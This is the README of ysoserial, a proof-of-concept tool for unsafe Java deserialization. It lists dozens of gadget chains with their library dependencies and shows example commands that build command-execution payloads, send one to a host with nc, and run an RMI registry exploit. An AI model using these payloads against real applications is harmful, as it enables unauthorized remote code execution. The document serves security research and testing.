 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
 Payload              Authors                                Dependencies                                                                                                                                                                                 
     -------              -------                                ------------                                                                                                                                                                                 
     AspectJWeaver        @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                               
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1                                                                                                                                                             
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                    
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                    
     Ceylon               @kai_ullrich                           ceylon.language:1.3.3                                                                                                                                                                        
     Click1               @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                  
     Clojure              @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     Clojure2             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                        
     CommonsBeanutils2    @k4n5ha0                               commons-beanutils:1.9.2                                                                                                                                                                      
     CommonsCollections1  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections2  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections3  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections4  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                      
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                      
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                      
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0                                                                                                                                                                     
     CreateZeroFile       @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                     
     Groovy1              @frohoff                               groovy:2.3.9                                                                                                                                                                                 
     Hibernate1           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     Hibernate2           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                     
     JRMPClient           @mbechler                                                                                                                                                                                                                           
     JRMPListener         @mbechler                                                                                                                                                                                                                           
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                 
     Jdk7u21              @frohoff                                                                                                                                                                                                                            
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                      
     Jython2              @pwntester, @cschneider4711, @ykoster  jython-standalone:2.5.2                                                                                                                                                                      
     MozillaRhino1        @matthias_kaiser                       js:1.7R2                                                                                                                                                                                     
     MozillaRhino2        @_tint0                                js:1.7R2                                                                                                                                                                                     
     Myfaces1             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     Myfaces2             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     ROME                 @mbechler                              rome:1.0                                                                                                                                                                                     
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                        
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                    
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1                                                                                                                               
     Ssrf                 @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                     
     URLDNS               @gebl                                                                                                                                                                                                                               
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                   
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                          
     WildFly              @hugow                                 wildfly-connector:30.0.1.Final                 
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
